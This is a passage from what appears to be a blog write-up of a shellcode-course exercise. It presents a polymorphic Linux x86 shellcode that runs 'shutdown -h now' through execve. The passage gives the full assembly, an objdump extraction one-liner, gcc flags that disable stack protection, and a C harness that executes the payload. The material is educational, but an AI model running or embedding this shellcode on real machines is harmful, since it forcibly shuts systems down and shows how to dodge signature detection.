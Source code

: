 	mov dword [esp-4],ecx
	mov dword [esp-8],0x74756873
	shl eax,2
	mov dword [esp-12],0x2f2f2f6e
	shr eax,3
	mov dword [esp-16],0x6962732f
	sub esp,16
	mov    ebx,esp
	push   edx
	push   esi
	push   edi
	push   ebx
	mov    ecx,esp
	mov    al,0xb ;the syscall execve
	int    0x80
{% endhighlight %}

{% highlight js %}
assembly compilation:
./compile PolyShutdown

shellcode extraction:
objdump -d ./PolyShutdown|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'

shellcode.c compilation:
gcc -fno-stack-protector -z execstack shellcode-poly.c -o shellcode-poly
{% endhighlight %}

shellcode-poly.c:

{% highlight js %}
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc0\x31\xd2\x50\x66\x68\x2d\x68\x89\xe7\x50\x6a\x6e\x66\xc7\x44\x24\x01\x6f\x77\x89\xe7\x50\xb9\x53\x5e\x66\x5d\x81\xc1\x11\x11\x11\x11\x89\x4c\x24\xfc\xc7\x44\x24\xf8\x73\x68\x75\x74\xc1\xe0\x02\xc7\x44\x24\xf4\x6e\x2f\x2f\x2f\xc1\xe8\x03\xc7\x44\x24\xf0\x2f\x73\x62\x69\x83\xec\x10\x89\xe3\x52\x56\x57\x53\x89\xe1\xb0\x0b\xcd\x80";

int main()
{

	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();

}
{% endhighlight %}

We can see the new shellcode has a size of 84, which is 150% size of the original shellcode. The machine is shut down after the shellcode executed.

![assignment6-2](https://bohansec.com/assets/SLAE-assignment6/2.PNG "assignment6-2")
![assignment6-3](https://bohansec.com/assets/SLAE-assignment6/3.PNG "assignment6-3")
